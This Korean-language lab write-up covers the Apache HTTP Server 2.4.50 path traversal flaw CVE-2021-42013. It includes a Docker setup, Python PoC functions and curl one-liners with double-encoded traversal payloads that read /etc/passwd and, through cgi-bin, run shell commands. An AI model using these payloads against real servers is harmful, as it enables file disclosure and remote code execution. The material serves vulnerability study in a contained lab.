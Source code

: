 # Apache HTTP Server 2.4.50의 Path traversal & file disclosure 취약점 (CVE-2021-42013)

CVE-2021-42013은 이전 [CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)의 패치가 불완전하게 적용되어 발생한 취약점으로, 공격자가 Alias 계열 지시어로 설정된 디렉터리 외부의 파일을 경로 탐색(path traversal) 공격을 통해 노출시킬 수 있다.

이 취약점은 Apache HTTP Server **2.4.49** 및 **2.4.50** 버전에 영향을 미치며 이전 버전에는 영향을 미치지 않는다.

참고 자료:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024


  
## 환경 구성

취약한 Apache HTTP 서버 구성을 위해 Dokerfile과 docker-compose.yml 파일을 같은 폴더에 넣은 후 아래 명령어를 실행한다.
```
docker compose build
docker compose up -d
```

서버가 실행된 후 `http://<IP 주소>:8080`으로 접속하면 Apache 기본 페이지의 "It works!"를 볼 수 있다.
![](1.png)


  
## PoC.py 실행
Apache HTTP Server 2.4.50에서는 CVE-2021-41773 페이로드(`http://your:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`)를 차단하였으나 패치가 불완전하여 우회가 가능하다.
icons 폴더 `.%2e`대신 `.%%32%65`를 사용하면 우회할 수 있다.

해당 페이로드는 내부적으로 `icons/../../../../../../etc/passwd`로 처리되고 icons 디렉터리에서 상위 디렉터리로 이동하여 `/etc/passwd`에 접근한다.

PoC.py 실행에 Python의 requests 라이브러리를 사용하므로 `pip install requests`를 통해 미리 설치한다.

---

### File disclosure 테스트
- PoC.py
```
# /etc/passwd 정보 노출 file disclosure
def path_traversal(host="localhost", port=8080, depth=7):

    path = "/".join([".%2e"] * depth) # .%2e 를 depth만큼 반복
    url = f"http://{host}:{port}/icons/{path}/etc/passwd"
    print(f"[+] 파일 정보 노출 테스트:\n    {url}\n")

    r = requests.get(url, allow_redirects=True)
    print(f"Status: {r.status_code}\n")
    print(r.text)
```

![](2.png)

- CMD
```
curl -v --path-as-is http://localhost:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![](3.png)

 `/etc/passwd` 파일을 성공적으로 확인할 수 있다.
 
 ---
 ### Path traversal 테스트
만약 서버에 CGI(mod_cgi 또는 mod_cgid) 모듈이 활성화되어 있으면, 동일한 기법으로 임의 명령 실행까지 가능하다
- PoC.py
```
# CGI RCE 테스트
def cgi_rce(host="localhost", port=8080, depth=7, cmd="id"):

    path = "/".join([".%2e"] * depth)
    url = f"http://{host}:{port}/cgi-bin/{path}/bin/sh"
    print(f"[+] CGI RCE 테스트:\n    {url}\n    cmd: {cmd}\n")

    payload = f"echo; {cmd}" # echo;id 
    r = requests.post(url, data=payload)
    print(f"Status: {r.status_code}\n")
    print(r.text)
```

![](4.png)

- CMD
```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![](5.png)
 id 명령 실행 결과가 그대로 반환되는 것을 확인할 수 있다.
